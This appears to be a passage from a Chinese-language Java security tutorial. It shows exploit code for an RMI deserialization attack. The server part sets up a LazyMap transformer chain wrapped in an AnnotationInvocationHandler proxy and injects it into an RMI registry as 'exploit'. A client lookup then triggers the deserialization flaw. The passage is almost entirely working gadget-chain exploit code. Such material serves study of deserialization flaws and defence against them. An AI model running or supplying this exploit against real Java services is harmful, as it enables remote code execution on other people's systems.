 ```java
        Field factoryField = LazyMap.class.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, chain);
        lazyMap.remove("lingx5");

        // 4. 创建 AnnotationInvocationHandler 代理
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, map);

        // 5. 创建动态代理对象（使用 Retention 接口）
        Class<?> retentionClass = Retention.class;
        Remote remoteProxy = (Remote) Proxy.newProxyInstance(
            retentionClass.getClassLoader(),
            new Class[]{Remote.class, retentionClass}, // 实现 Remote 和 Retention 接口
            handler
        );

        // 6. 启动 RMI 注册中心
        Registry registry = LocateRegistry.createRegistry(1099);

        // 7. 反射注入恶意对象到注册中心的 bindings
        Field bindingsField = registry.getClass().getDeclaredField("bindings");
        bindingsField.setAccessible(true);
        Map<String, Remote> bindings = (Map<String, Remote>) bindingsField.get(registry);
        bindings.put("exploit", remoteProxy); // 绑定恶意对象到名称 "exploit"
        //        registry.bind("exploit", remoteProxy);
        System.out.println("RMI 注册中心已启动");
        // 保持注册中心运行
        Thread.currentThread().join();

    }
}
```

客户端查询

```java
package com.lingx5.RMI;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        registry.lookup("exploit"); // 触发反序列化漏洞
    }
}
```
